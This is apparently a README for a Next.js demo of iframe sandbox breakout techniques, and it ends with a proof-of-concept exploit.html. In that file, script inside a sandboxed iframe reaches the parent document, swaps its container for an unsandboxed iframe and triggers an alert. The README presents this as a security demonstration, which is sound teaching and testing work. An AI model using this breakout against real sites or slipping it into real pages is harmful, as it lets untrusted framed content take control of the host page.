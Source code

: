 # iFrame Breakout Demo

This project is a Next.js application that demonstrates various iframe breakout techniques. It's designed to showcase potential security vulnerabilities and how they can be exploited or prevented.

## Features

- Custom iframe content manipulation
- Demonstration of iframe sandbox breakout techniques
- Real-time message passing between parent and iframe
- Tailwind CSS for styling
- TypeScript for type safety

## Getting Started

To run this project locally, follow these steps:

1. Clone the repository
2. Install dependencies:
   ```bash
   pnpm install
   ```
3. Run the development server:
   ```bash
   pnpm dev
   ```
4. Open [http://localhost:3000](http://localhost:3000) in your browser

## Project Structure

- `app/`: Next.js app directory
- `components/`: React components
- `public/`: Static files
- `lib/`: Utility functions

## Key Components

### CustomIframeDemoComponent

This is the main component that demonstrates the iframe breakout techniques. It allows users to input custom HTML content and observe the behavior of the iframe.


### Exploit HTML

The `exploit.html` file contains a proof-of-concept for breaking out of an iframe sandbox:
# iframe-escape
```
<!DOCTYPE html>
<html>
<head>
    <title>PoC - iframe sandbox breakout</title>
</head>
<body>
    <script>
        const escape = () => {
            document.body.innerText = "poc iframe sandbox breakout.";

            let parent = window.parent;
            
            // Find the iframe that contains this window
            let container = Array.from(parent.document.getElementsByTagName('iframe'))
                .find(iframe => iframe.contentWindow === window);

            if (container) {
                let replacement = parent.document.createElement("iframe");
                replacement.setAttribute("src", window.location.href);
                replacement.setAttribute("id", "escapedTheIframe")
                parent.document.body.append(replacement);
                container.parentNode.removeChild(container);
                parent.alert("broke out of the iframe sandbox poc - ian");
            } 
            else {
                alert("Could not find the containing iframe - ian");
            }
        }

        escape();
    </script>
</body>
</html>
```
